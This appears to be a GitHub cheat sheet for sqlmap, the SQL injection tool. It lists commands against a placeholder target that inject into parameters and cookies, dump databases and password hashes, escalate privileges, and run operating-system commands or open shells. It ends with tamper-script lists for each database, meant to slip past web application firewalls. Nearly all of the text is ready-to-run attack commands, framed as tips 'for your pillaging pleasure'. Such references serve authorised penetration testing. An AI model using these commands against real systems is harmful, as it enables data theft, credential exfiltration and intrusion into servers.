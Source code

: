# SQLMapCheatsheet

## Command
- Target the http://target.server.com URL using the “-u” flag:
    ```
    sqlmap -u 'http://target.server.com'
    ```

- Specify POST requests by specifying the “–data” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'
    ```

- Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'
    ```

- Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
    ```
- Perform in-depth and risky attacks using the “–level” and “–risk” flags:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
    ```
- Specify which POST or GET parameter to target using the “-p” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
    ```
- Choose a random User-Agent request header using the “–random-agent” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --random-agent
    ```
- Target a certain database service using the “–dbms” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
    ```
- Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
    ```
    sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
    ```
- Attempt privilege escalation on the target database
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --privesc
    ```
- Run the “whoami” command on the target server.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
    ```
- Dump everything in the database, but wait one second in-between requests.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
    ```
- Here are some useful options for your pillaging pleasure:
    ```
    -r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
    –force-ssl Force SQLmap to use SSL or TLS for its requests.
    –level=1 only test against the specified parameter, ignore all others.
    –risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
    –delay Set a delay in-between requests, great for throttled connections.
    –proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
    –privesc Attempt to elevate the privileges of the database service account.
    –all Enumerate everything inside the target database.
    –hostname Print the target database’s hostname.
    –passwords Find and exfiltrate all users and their password hashes or digests.
    –dbs Enumerate all databases accessible via the target webserver.
    –comments Enumerate all found comments inside the database.
    –sql-shell Return a SQL prompt for interaction.
    –os-cmd Attempt to execute a system command.
    –os-shell Attempt to return a command prompt or terminal for interaction.
    –reg-read Read the specified Windows registry key value.
    –file-write Specify a local file to be written to the target server.
    –file-dest Specify the remote destination to write a file to.
    –technique Specify a letter or letters of BEUSTQ to control the exploit attempts:
        B: Boolean-based blind
        E: Error-based
        U: Union query-based
        S: Stacked queries
        T: Time-based blind
        Q: Inline queries
    ```


## Tamper
  - **All scripts**
  ```
          --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

  - **General scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

  - **Microsoft access**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

  - **Microsoft SQL Server**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

  - **MySQL**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
  ```

  - **Oracle**
  ```
  --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
  ```

  - **PostgreSQL**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
  ```

  - **SAP MaxDB**
  ```
  --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```

  - **SQLite**
  ```
  --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```
